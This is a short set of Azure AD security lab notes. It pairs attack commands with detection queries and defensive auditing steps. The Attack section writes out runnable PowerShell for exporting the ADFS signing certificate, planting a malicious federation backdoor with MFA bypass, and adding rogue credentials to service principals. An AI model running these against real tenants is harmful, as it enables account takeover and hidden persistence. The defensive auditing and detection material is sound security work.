 # AzureAD Security 

Quick notes from lab on Azure AD security  

## Attack

### Export ADFS certificate
Export-AADIntADFSSigningCertificate -filename ADFSSigningCertificate.pfx  

#### More info 

$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService  
$conn = $ADFS.ConfigurationDatabaseConnectionString  
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn  
$SQLclient.Open()  
$SQLcmd = $SQLclient.CreateCommand()  
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"  
$SQLreader = $SQLcmd.ExecuteReader()  
$SQLreader.Read() | Out-Null  
$settings=$SQLreader.GetTextReader(0).ReadToEnd()  
$SQLreader.Dispose()  
\[xml\]$xml=$settings  

### Adding a malicious federation trust
Get-AADIntAccessTokenForAADGraph -savetocache                                                                       
ConvertTo-AADIntBackdoor -domain maliciousdomain.com     
get-msoluser | select UserPrincipalName, ImmutableId  
Open-AADIntOffice365Portal -ImmutableID $id -UseBuiltInCertificate -ByPassMFA $true -Issuer ISSUER  

(AuditLogs | where OperationName =~ "Set domain authentication")  
(AuditLogs | where OperationName =~ "Set federation settings on domain" )  

## Adding credentials to a service principle 

### Certificate 
$cert = New-SelfSignedCertificate -dnsname some.domain.com -CertStoreLocation cert:\LocalMachine\My -Provider “Microsoft Enhanced RSA and AES Cryptographic Provider”  
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())   
$sp = get-azureadserviceprincipal -searchstring SEARCHSTRING  
New-AzureADServicePrincipalKeyCredential -objectid $sp.ObjectId -EndDate "01-01-2022 12:00:00" -StartDate "01-03-2021 14:12:00" -CustomKeyIdentifier "Test" -Type AsymmetricX509Cert -Usage Verify -Value $keyValue  
Connect-AzureAD  -Tenant TENANTID -ApplicationID APPID -CertificateThumbprint CERTTHUMBPRINT  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Password
New-AzureADServicePrincipalPasswordCredential -objectid $sp.ObjectId -EndDate "01-01-2030 12:00:00" -StartDate "04-04-2020 12:00:00"  -Value PASSWORD  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Create a new service principle 
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null}  
$sp = New-AzADServicePrincipal -DisplayName 'MicrosoftSyncShare'  

## Defence 

Install-module azureadpreview
Connect-AzureAD  

Install-module ExchangeOnlineManagement
Connect-ExchangeOnline

Install-module MSOnline
Connect-MsolService  

### Auditing federation trusts
Azure AD  
Get-MsolDomain | Select * / Get-AzureADDomain | Select *  
Get-MsolFederationProperty (need to run this for each domain)  
Exchange Online  
Get-FederationTrust | Format-List
Get-FederatedOrganizationIdentifier -IncludeExtendedDomainInfo  
Get-FederatedOrganizationIdentifier -IncludeExtendedDomainInfo | select-object -expandproperty Domains  

### Auditing service principles
Get-AzureADServicePrincipal  
Get-AzureADServicePrincipal -all $true | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null} | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.PasswordCredentials -ne $null} | Select *   

### Sentinel connectors
AzureActiveDirectory  
SecurityEvents  
Office365  
Microsoft 365 Defender  

### Other useful commands
Get-AADIntLoginInformation -Domain domain.com  
Get-AzureADTenantDetail | Select *  

### CISA Sparrow
https://github.com/cisagov/Sparrow/blob/develop/Sparrow.ps1  
Invoke-WebRequest 'https://github.com/cisagov/Sparrow/raw/develop/Sparrow.ps1' -OutFile 'Sparrow.ps1' -UseBasicParsing  

### Crowdstrike CRT
https://github.com/CrowdStrike/CRT/blob/main/Get-CRTReport.ps1


